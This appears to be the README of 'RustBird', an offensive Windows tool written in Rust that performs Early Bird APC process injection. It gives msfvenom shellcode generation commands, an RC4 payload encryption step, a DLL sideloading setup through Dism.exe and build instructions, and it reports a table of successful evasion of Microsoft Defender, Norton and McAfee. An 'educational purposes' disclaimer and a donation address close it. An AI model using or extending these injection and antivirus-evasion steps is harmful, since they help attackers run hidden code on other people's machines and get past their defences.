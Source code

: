# RustBird (Early Bird APC Injection in Rust)

<p align="left">
	<a href="https://www.rust-lang.org/"><img src="https://img.shields.io/badge/made%20with-Rust-red"></a>
	<a href="#"><img src="https://img.shields.io/badge/platform-windows-blueviolet"></a>
</p>

![rustbird](https://static.wikia.nocookie.net/finalfantasy/images/9/90/Rust_Bird_from_FFIII_Pixel_Remaster_sprite.png)

## Overview
The technique known as "Early Bird APC Injection" is used to inject malicious code into the legitimate processes of a Windows operating system. This method inserts malicious code into a process during its early stages, often before the main routines of the process are activated. It also features enhanced antivirus evasion capabilities through the implementation of a Block DLL Policy, which prevents the loading of DLLs not signed by Microsoft, the use of Zw* functions from undocumented APIs in the Windows Kernel, and the utilization of DLL sideloading.

## Generate Payload using MSFvenom
```
msfvenom -p windows/x64/exec cmd="calc.exe" -f raw -o raw.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Saved as: raw.bin
```

## Payload Encryption
RC4 Encrypt Payload: https://github.com/c2pain/RC4_Encryptor

Example:
```
C:\Users\C2Pain\Desktop> rc4_encryptor.exe raw.bin
[+] Encrypted shellcode saved to: r-a-w-4.enc
```

## DLL Sideloading
Using Dism.exe as an example, it has been noted that it loads DismCore.dll.

To locate the exported functions, you can use: https://github.com/c2pain/RustGetExports

You can then include the exported functions to the lib.rs.
```
RustGetExports.exe C:\Windows\System32\Dism\DismCore.dll
DismCore.dll
DllCanUnloadNow
DllGetClassObject
DllRegisterServer
```

## Usage 
You need to compiled the binary and copy C:\Windows\System32\Dism.exe to the same directory to run:
```
cargo build --release
```

## AV/EDR Testing Result on x64 Windows 10/11
Test Date: 5 Oct 2024
| AV/EDR Product | Execute |
| ------ | ------ |
| Microsoft Defender | :white_check_mark: |
| Norton 360 Deluxe | :white_check_mark: |
| McAfee | :white_check_mark: |

## Screenshots
![spawn-calc](/screenshots/spawn-calc.png)

## Reference and Credits
[RustRedOps](https://github.com/joaoviictorti/RustRedOps) by @joaoviictorti

[Hijack Execution Flow: DLL Side-Loading](https://attack.mitre.org/techniques/T1574/002/)

[Final Fantasy Wiki - Enemies in Final Fantasy III](https://finalfantasy.fandom.com/wiki/Rust_Bird)

## Full Disclaimer
For educational purposes only. Any actions and or activities related to the material contained within this repository is solely your responsibility. The misuse of the tools in this repo could result in criminal charges being brought against the persons in question. The author will not be held responsible in the event any criminal charges are brought against any individuals misusing the tools in this repository for mailicious ourposes or to break the law.

## Support
BTC: bc1q83z6r2mxytkhh9gpmavc94d53ez0kvkx7rxtzk

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/c2pain)

